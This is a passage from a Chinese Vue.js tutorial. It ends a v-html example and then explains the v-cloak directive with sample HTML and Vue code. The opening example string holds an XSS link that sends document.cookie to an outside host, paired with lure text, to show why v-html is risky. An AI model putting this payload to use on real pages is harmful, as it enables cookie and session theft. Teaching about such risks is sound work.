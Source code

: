 ```html
        str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
      },
    })
  </script>
```

##### 1.17.3 v-vloak

**v-cloak指令（没有值）：**

- 本质是一个特殊属性，`Vue`实例创建完毕并接管容器后，会删掉`v-cloak`属性。
- 使用`css`配合`v-cloak`可以解决网速慢时页面展示出`{{xxx}}`的问题。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <style>
      [v-cloak] {
        display: none;
      }
    </style>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器-->
    <div id="root">
      <h2 v-cloak>{{name}}</h2>
    </div>
    <script
      type="text/javascript"
      src="http://localhost:8080/resource/5s/vue.js"
    ></script>

    <script type="text/javascript">
      console.log(1)
      Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

      new Vue({
        el: '#root',
        data: {
          name: '尚硅谷',
        },
      })
    </script>
  </body>
</html>
```
